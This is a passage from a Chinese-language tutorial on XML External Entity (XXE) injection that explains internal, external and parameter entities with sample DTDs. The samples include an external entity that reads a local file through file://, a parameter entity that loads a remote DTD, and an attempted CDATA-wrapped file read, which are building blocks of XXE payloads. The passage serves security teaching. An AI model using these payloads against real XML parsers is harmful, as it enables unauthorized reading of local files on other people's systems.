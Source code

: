 然后在XML中用`&实体名;`进行调用，可以省略根元素

```xml
<user>&xxe;</user>
```

事实上，`<!ELEMENT foo ANY >`还可以进行省略，并把DTD和XML写到一个文件

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
<!ENTITY xxe "test" >
]>
<user>&xxe;</user>
```

这就是内部实体

外部实体就是DTD里嵌套读取外部的DTD，用SYSTEM关键字声明。这里读取的文件可以是任何格式的文件

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >
]>
<user>&xxe;</user>
```

```dtd
<!ENTITY 实体名 SYSTEM url > //外部实体
<!ENTITY 实体名 实体的值 > //内部实体
```

### 参数实体

除了上面的`&实体名;`引用的实体，还有`% 实体名;`引用的参数实体。（空格不能省略）

区别在于参数实体的引用是写在DTD的

```dtd
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd">
%remote-dtd;
```

看到这里你可能觉得参数实体这个东西很多余，但是在payload的拼接处发挥了巨大的作用

XML解析引用的时候，并不接收引起xml格式混乱的字符，XML中的`&<>,`等均需要转义，否则需要加上`<![CDATA[]]>`对字符串进行包裹转义。

按理说，`&实体名;`进行包裹的代码如下，可是完全不能解析。不能先解析再拼接

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
<!ENTITY start SYSTEM "<![CDATA[" >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >
<!ENTITY end SYSTEM "]]>" >
]>
<user>&start;&xxe;&end;</user>
```
